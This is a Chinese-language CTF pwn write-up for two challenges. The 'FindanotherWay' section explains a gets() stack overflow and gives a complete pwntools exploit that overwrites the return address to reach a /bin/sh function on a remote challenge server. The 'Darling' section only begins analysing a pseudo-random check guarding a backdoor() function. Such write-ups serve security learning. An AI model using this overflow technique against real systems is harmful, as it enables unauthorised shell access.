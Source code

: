 



### FindanotherWay

IDA打开附件，发现 vuln() 函数，追踪进去

![image-20221024235848033](https://nssctf.wdf.ink/img/yxy/image-20221024235848033.png)

发现 gets 函数，存在栈溢出：

![image-20221024235924094](https://nssctf.wdf.ink/img/yxy/image-20221024235924094.png)

s为[rbp-Ch]，故需要填充0xC长度的垃圾数据

继续找到 youfindit 函数，发现存在bin/sh

![image-20221025000024709](https://nssctf.wdf.ink/img/yxy/image-20221025000024709.png)

追踪此函数地址：

![image-20221025000051731](https://nssctf.wdf.ink/img/yxy/image-20221025000051731.png)

发现需要 findanotherway，那就直接抓rbp, rsp地址：0x0000000000401235

![image-20221025000730426](https://nssctf.wdf.ink/img/yxy/image-20221025000730426.png)

贴个exp：

```python
from pwn import *

sh = remote('1.14.71.254','xxxxx')
system_addr = 0x0000000000401235

payload = b'a'*0xC + p64(0) + p64(system_addr)
sh.sendline(payload)

sh.interactive()
```

</br>

### Darling

拿到附件checksec

![截图](https://nssctf.wdf.ink/img/yxy/afdad17c8b94a7ad1139cc78464659f5.png)

64位，拖进IDA

![截图](https://nssctf.wdf.ink/img/yxy/fd5caa79bb81bcdef83d539af08388f5.png)

发现只要输入的数字满足预制的伪随机数，即可执行 `backdoor()` 函数

![截图](https://nssctf.wdf.ink/img/yxy/ab87abd0aee9da6ceca6827d7d1dca88.png)
